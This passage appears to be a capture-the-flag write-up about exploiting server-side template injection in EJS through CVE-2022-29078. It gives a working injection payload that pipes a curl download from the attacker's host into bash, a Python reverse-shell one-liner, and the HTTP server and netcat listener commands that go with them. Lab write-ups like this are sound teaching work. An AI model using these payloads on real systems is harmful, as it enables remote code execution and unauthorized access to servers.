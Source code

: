 However I notice the ejs file extension, after searching it I found that it is an Embedded JavaScript templating language, which reminds me of SSTI.

![missing](https://y.yarn.co/6c667cef-2b9f-4a04-b94d-fdad872ceb90_text.gif)

### Server Side Template Injection (SSTI)

>SSTI occurs when user input is improperly sanitized and directly evaluated in a server-side template. This allows attackers to inject and execute malicious template code, potentially gaining access to sensitive data or executing arbitrary code on the server.
{: .highlight}


#### CVE-2022-29078
After researching about `ejs vulnerbilities`, I came across this [Awesome Blog](https://eslam.io/posts/ejs-server-side-template-injection-rce/) about `CVE-2022-29078`, I suggest reading that before you continue

Here is the payload we can use to exploit this CVE

```console

&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl http://10.17.14.227:8081 | bash');s

```

This command retrieves and executes the payload hosted on our server `curl http://10.17.14.227:8081 | bash`

create index.html and launch python server

```console
$ cat index.html
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.14.227",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

$ python3 -m http.server 8081
```

launch listener on port `1337`
```console
nc -nlvp 1337
```
